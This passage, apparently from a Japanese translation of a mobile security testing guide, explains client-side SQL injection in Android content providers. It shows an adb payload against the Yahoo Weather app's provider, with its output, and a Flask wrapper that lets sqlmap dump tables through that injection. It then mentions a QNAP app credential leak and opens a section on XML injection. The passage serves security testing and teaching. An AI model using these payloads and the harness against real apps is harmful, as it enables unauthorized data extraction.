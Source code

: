 ```
$ adb shell content query --uri content://com.yahoo.mobile.client.android.weather.provider.Weather/locations/ --sort '_id/**/limit/**/\(select/**/1/**/from/**/sqlite_master/**/where/**/1=1\)'  

Row: 0 _id=1, woeid=2487956, isCurrentLocation=0, latitude=NULL, longitude=NULL, photoWoeid=NULL, city=NULL, state=NULL, stateAbbr=, country=NULL, countryAbbr=, timeZoneId=NULL, timeZoneAbbr=NULL, lastUpdatedTimeMillis=746034814, crc=1591594725

```

以下の`_id/**/limit/**/\(select/**/1/**/from/**/sqlite_master\)`を使ってペイロードをさらに単純化することができます。

このSQLインジェクションの脆弱性は、ユーザーがまだアクセスできない機密データは一切曝露しませんでした。この例では、adbを使用して脆弱なコンテンツプロバイダをテストする方法を示します。 Ostorlabはこれをさらに継承し、SQLiteクエリのWebページインスタンスを作成してから、SQLmapを実行してテーブルをダンプします。

```python

import subprocess
from flask import Flask, request

app = Flask(__name__)

URI = "com.yahoo.mobile.client.android.weather.provider.Weather/locations/"

@app.route("/")
def hello():

   method = request.values['method']
   sort = request.values['sort']
   sort = "_id/**/limit/**/(SELECT/**/1/**/FROM/**/sqlite_master/**/WHERE/**/1={})".format(sort)
   #sort = "_id/**/limit/**/({})".format(sort)

   p = subprocess.Popen(["adb","shell","content",method,"--uri","content://{}".format(URI),"--sort",'"{}"'.format(sort)],stdout=subprocess.PIPE,stderr=subprocess.STDOUT)

   o, e = p.communicate()

   print "[*]SORT:{}".format(sort)
   print "[*]OUTPUT:{}".format(o)
   return "<html><divclass='output'>{}</div></html>".format(o)

if __name__=="__main__":
   app.run()

```

クライアントサイドのSQLインジェクションの実例は、Mark Woodsによって、QNAP NASストレージアプライアンス上で実行されているAndroidアプリ「Qnotes」および「Qget」で発見されました。これらのアプリはSQLインジェクションに対して脆弱なコンテンツプロバイダをエクスポートし、攻撃者がNASデバイスの認証情報を取得することを可能にしました。この問題の詳細な説明は[Nettitude Blog](https://blog.nettitude.com/uk/qnap-android-dont-provide "Nettitude Blog - QNAP Android: Don't Over Provide")にあります。

#### XML Injection

*XMLインジェクション* 攻撃では、攻撃者はXMLメタ文字を注入してXMLコンテンツを構造的に変化させます。これは、XMLベースのアプリケーションやサービスのロジックを危険に晒したり、攻撃者がコンテンツを処理するXMLパーサーの操作を悪用するために使用されます。
